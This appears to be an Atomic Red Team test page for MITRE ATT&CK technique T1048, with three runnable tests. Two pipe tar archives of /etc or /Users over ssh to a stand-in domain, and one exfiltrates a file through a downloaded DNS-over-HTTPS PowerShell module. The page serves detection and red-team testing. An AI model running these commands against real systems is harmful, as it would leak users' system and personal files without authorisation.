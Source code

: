 # T1048 - Exfiltration Over Alternative Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1048)
<blockquote>Adversaries may steal data by exfiltrating it over a different protocol than that of the existing command and control channel. The data may also be sent to an alternate network location from the main command and control server.  

Alternate protocols include FTP, SMTP, HTTP/S, DNS, SMB, or any other network protocol not being used as the main command and control channel. Adversaries may also opt to encrypt and/or obfuscate these alternate channels. 

[Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048) can be done using various common operating system utilities such as [Net](https://attack.mitre.org/software/S0039)/SMB or FTP.(Citation: Palo Alto OilRig Oct 2016) On macOS and Linux <code>curl</code> may be used to invoke protocols such as HTTP/S or FTP/S to exfiltrate data from a system.(Citation: 20 macOS Common Tools and Techniques)

Many IaaS and SaaS platforms (such as Microsoft Exchange, Microsoft SharePoint, GitHub, and AWS S3) support the direct download of files, emails, source code, and other sensitive information via the web console or [Cloud API](https://attack.mitre.org/techniques/T1059/009).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltration Over Alternative Protocol - SSH](#atomic-test-1---exfiltration-over-alternative-protocol---ssh)

- [Atomic Test #2 - Exfiltration Over Alternative Protocol - SSH](#atomic-test-2---exfiltration-over-alternative-protocol---ssh)

- [Atomic Test #3 - DNSExfiltration (doh)](#atomic-test-3---dnsexfiltration-doh)


<br/>

## Atomic Test #1 - Exfiltration Over Alternative Protocol - SSH
Input a domain and test Exfiltration over SSH

Remote to Local

Upon successful execution, sh will spawn ssh contacting a remote domain (default: target.example.com) writing a tar.gz file.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** f6786cc8-beda-4915-a4d6-ac2f193bb988





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain | target SSH domain | url | target.example.com|


#### Attack Commands: Run with `sh`! 


```sh
ssh #{domain} "(cd /etc && tar -zcvf - *)" > ./etc.tar.gz
```






<br/>
<br/>

## Atomic Test #2 - Exfiltration Over Alternative Protocol - SSH
Input a domain and test Exfiltration over SSH

Local to Remote

Upon successful execution, tar will compress /Users/* directory and password protect the file modification of `Users.tar.gz.enc` as output.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 7c3cb337-35ae-4d06-bf03-3032ed2ec268





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | username for domain | string | atomic|
| password | password for user | string | atomic|
| domain | target SSH domain | url | target.example.com|


#### Attack Commands: Run with `sh`! 


```sh
tar czpf - /Users/* | openssl des3 -salt -pass #{password} | ssh #{user_name}@#{domain} 'cat > /Users.tar.gz.enc'
```






<br/>
<br/>

## Atomic Test #3 - DNSExfiltration (doh)
DNSExfiltrator enables the transfer (exfiltration) of a file over a DNS request covert channel. This is basically a data leak testing tool allowing to exfiltrate data over a covert channel.
!!! Test will fail without a domain under your control with A record and NS record !!! 
See this github page for more details - https://github.com/Arno0x/DNSExfiltrator

**Supported Platforms:** Windows


**auto_generated_guid:** c943d285-ada3-45ca-b3aa-7cd6500c6a48





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| password | Password used to encrypt the data to be exfiltrated | string | atomic|
| domain | The domain name to use for DNS requests | string | target.example.com|
| ps_module | DNSExfiltrator powershell ps_module | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;dnsexfil.ps1|
| doh | Google or CloudFlare DoH (DNS over HTTP) server | string | google|
| time | The time in milliseconds to wait between each DNS request | string | 500|
| encoding | Set to '-b32' to use base32 encoding of data. Might be required by some DNS resolvers. | string | |


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module "#{ps_module}"
Invoke-DNSExfiltrator -i "#{ps_module}" -d #{domain} -p #{password} -doh #{doh} -t #{time} #{encoding}
```




#### Dependencies:  Run with `powershell`!
##### Description: DNSExfiltrator powershell file must exist on disk at specified location (#{ps_module})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{ps_module}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
IWR "https://raw.githubusercontent.com/Arno0x/DNSExfiltrator/8faa972408b0384416fffd5b4d42a7aa00526ca8/Invoke-DNSExfiltrator.ps1" -OutFile "#{ps_module}"
```




<br/>
